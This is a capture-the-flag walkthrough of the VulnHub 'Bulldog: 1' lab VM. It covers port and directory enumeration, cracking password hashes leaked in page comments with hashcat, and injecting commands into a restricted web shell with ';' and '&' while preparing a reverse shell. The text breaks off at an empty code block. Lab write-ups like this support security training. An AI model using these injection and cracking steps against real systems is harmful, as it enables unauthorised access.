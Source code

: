 [vulnhub - easy/medium] bulldog: 1
----------------------------------

### enumeration
Since the machine's ip is already shown at its login page, I decide to check it on my browser to see if there's any useful information in it:

![bulldog 1](./images/bulldog-1.png)

But there isn't relevant info on the page (even after reading the source code) nor in the "Public Notice" link above the bulldog photo (except for text, that is, which could be used in CeWL if it comes to that). Running exiftoon on the photo also doesn't give me anything useful, just the cheeky nod:

```bash
Comment                         : Not a part of the VM, he's just cute :3 https://www.pexels.com/photo/white-and-brown-bulldog-on-brown-wood-planks-160748/
```

I then proceed to run nmap on all ports:

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ nmap -p- -T4 -oA nmap_info_allports 192.168.56.117
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-26 11:36 -03
Nmap scan report for 192.168.56.117
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
23/tcp   open  telnet
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

After that, detailed nmap on the detected ports:

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ nmap -p 23,80,8080 -sC -sV -oA nmap_info_detailed 192.168.56.117
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-26 11:38 -03
Nmap scan report for 192.168.56.117
Host is up (0.00062s latency).

PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (ED25519)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-title: Bulldog Industries
|_http-server-header: WSGIServer/0.1 Python/2.7.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.03 seconds
zsh: segmentation fault  nmap -p 23,80,8080 -sC -sV -oA nmap_info_detailed 192.168.56.117
```

The port 8080 is serving the same thing as the port 80, so I proceed to use gobuster to bruteforce probable directories.

```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ gobuster dir -u http://192.168.56.117/ -o gobuster_info -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.117/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/10/26 11:43:47 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://192.168.56.117/admin/]
/dev                  (Status: 301) [Size: 0] [--> http://192.168.56.117/dev/]  
/robots.txt           (Status: 200) [Size: 1071]                                
/notice               (Status: 301) [Size: 0] [--> http://192.168.56.117/notice/]
Progress: 63900 / 882244 (7.24%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                 
===============================================================
2022/10/26 11:45:21 Finished
===============================================================
```

The /dev/ directory found by gobuster seems to have interesting information on it. At surface level, this is what it looks like:
![bulldog 2](./images/bulldog-2.png)

And when trying to go to the "Web-Shell" link, what I get is:

![bulldog 3](./images/bulldog-3.png)

Meaning that i must authenticate (probably happens in the /admin/ directory found by gobuster) in order to access this page.

When viewing the /dev/ page source, I find the following information commented out:

```html
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

So i copy all these hashes into a file named 'hashes.txt', and run:
```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ sudo hashcat -m 100 -a 0 -o cracked_hashes.txt hashes.txt /home/j/Desktop/wordlists/SecLists/rockyou.txt
```

And they read as:
```bash
┌──(j㉿kali)-[~/Desktop/vulnhub/bulldog-1]
└─$ sudo cat cracked_hashes.txt
ddf45997a7e18a25ad5f5cf222da64814dd060d5:bulldog
d8b8dd5e7f000b8dea26ef8428caf38c04466b3e:bulldoglover
```

So, cross-referencing the cracked hashes to the comments, I get that username 'sarah' has password 'bulldoglover' and username 'nick' has password 'bulldog'.
When I go to the '/admin/' directory, it redirects me to '/admin/login/?next=/admin/', and  I'm presented to:

![bulldog 4](./images/bulldog-4.png)

I proceed to log-in with Username 'sarah' and Password 'bulldoglover'. After that I go to '/dev/' again, click on the "Web-Shell" link, and am redirected to:

![bulldog 5](./images/bulldog-5.png)

I seem to be able to run only the commands allowed, when i try to ping back my host machine, what i get is:

![bulldog 6](./images/bulldog-6.png)

But as it is well known, we can use ';' to run one command and then the next, one, so trying "pwd; whoami":

![bulldog 7](./images/bulldog-7.png)

But there is another way, using and ampersand, so, running "pwd & whoami":

![bulldog 8](./images/bulldog-8.png)

And I get the info that the user serving the page is 'django', and also that the string sent is not clean enough, allowing for the ampersand to pass. So i proceed to plan a reverse shell. I check to see if the machine has php, by running

```bash
pwd& which php
```

But the server returns status 500, which I think means that it doesn't have php installed. So i run:

```bash
pwd& which python3
```

And it returns the path to python3, which has a one-liner for reverse shell. So I run:

```bash

```
 